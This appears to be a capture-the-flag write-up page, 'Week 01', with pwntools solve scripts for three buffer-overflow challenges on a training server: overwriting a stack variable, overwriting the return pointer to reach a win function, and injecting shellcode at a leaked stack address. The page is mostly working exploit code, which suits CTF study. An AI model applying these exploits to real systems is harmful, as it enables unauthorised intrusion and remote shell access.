 +++
title = "Week 01"
weight = 0
slug="week-01"
description = "Buffer overflow overwrite variable, bof overwrite RIP, bof jump to shellcode at leaked stack address"
+++

# Flag Hole
Buffer overflow to overwrite a variable

Solve script:
``` py
from pwn import *

port= 7003
p = remote("pwn.cybr.club", port)
#p = process('./flag_hole')

p.recv()
p.send(b'\x00'*100)

p.interactive()
# looking at the assembly, the fd for /dev/null is stored at rbp-0xc, gets input is stored at rbp-0x70
# 0x70 - 0x0c = 100, overwrite it with 0 which is the fd for stdout
```

# Login
Buffer overflow to overwrite return instruction pointer

Solve script:
``` py
from pwn import *

port= 7000
p = remote("pwn.cybr.club", port)

win = p64(0x4011a2)

p.sendline(b'A'*40 + win)
p.sendline(b'lmao')

p.interactive()
```

# Sally
Given a leaked stack address, write shellcode and jump to it

Solve script:
``` py
from pwn import *

port= 7007
p = remote("pwn.cybr.club", port)
#p = process('./sally')
elf = ELF('./sally')
context.arch = elf.arch

shellcode = asm(shellcraft.sh())

p.recvuntil(b'There are ')
leak = int(p.recvuntil(b' sea').split(b' ')[0].decode(), 16)

p.sendline(shellcode+ b'A'*(136-len(shellcode)) + p64(leak))

p.interactive()
```
